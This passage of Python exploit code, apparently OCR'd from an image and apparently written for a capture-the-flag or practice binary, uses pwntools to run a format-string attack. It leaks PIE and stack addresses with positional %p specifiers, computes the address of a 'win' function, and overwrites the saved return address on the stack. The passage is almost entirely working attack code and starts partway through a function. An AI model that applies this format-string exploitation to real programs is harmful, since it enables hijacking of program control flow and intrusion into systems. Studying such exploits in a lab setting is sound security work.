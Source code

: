```python
    ''' 
    This method assumes the address to-be-read resides within 'offset' bytes, relative to rsp
    '''
    buf = b''
    position = 6 + int(offset / 8)
    buf += b'%' + str(position).encode() + b'$p'

    return buf

def leak_addr(p, format_size, offset):
    buf_1 = b''
    buf_1 += gen_read_format(offset)
    buf_1 += b'A' * (format_size - len(buf_1))

    p.send(buf_1)
    p.recvuntil(b'you got :P\n')
    p.recvuntil(b'\n')  # contains many spaces
    leak_addr = int(p.recv(14), 16)    

    return leak_addr


def main(): 
    # p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    p0 = process(BINARY)
    
    rsp_to_format_offset = 0xca
    pie_leak_offset = 0x194e
    stack_leak_offset = 0x50
    format_to_ra_offset = 0x3de
    format_to_ra_stack_address_offset = 38
    prefix_string_size = 74

    format_size = 0x300
    ra_offset = rsp_to_format_offset + format_to_ra_offset
    ra_stack_address_offset = rsp_to_format_offset + format_to_ra_stack_address_offset

    pie_leak_addr = leak_addr(p0, format_size, ra_offset)
    pie_base = pie_leak_addr - pie_leak_offset
    print(f'pie_base:{hex(pie_base)}')
    assert(pie_base & 0xfffffffffffff000 == pie_base)

    binary_win_addr = pie_base + binary_win_offset
    print(f'binary_win_addr:{hex(binary_win_addr)}')

    stack_leak_addr = leak_addr(p0, format_size, ra_offset - 8)
    ra_stack_address = stack_leak_addr - stack_leak_offset + 8
    print(f'ra_stack_address:{hex(ra_stack_address)}')

    buf_2 = b''
    buf_2 += gen_write_format(rsp_to_format_offset, ra_stack_address_offset, binary_win_addr, prefix_string_size)
    buf_2 += struct.pack('<Q', ra_stack_address)
    buf_2 += struct.pack('<Q', ra_stack_address + 2)
    buf_2 += struct.pack('<Q', ra_stack_address + 4)
    buf_2 += b'A' * (format_size - len(buf_2))
    p0.send(buf_2)

    p0.send(b'END')
    p0.interactive()
```
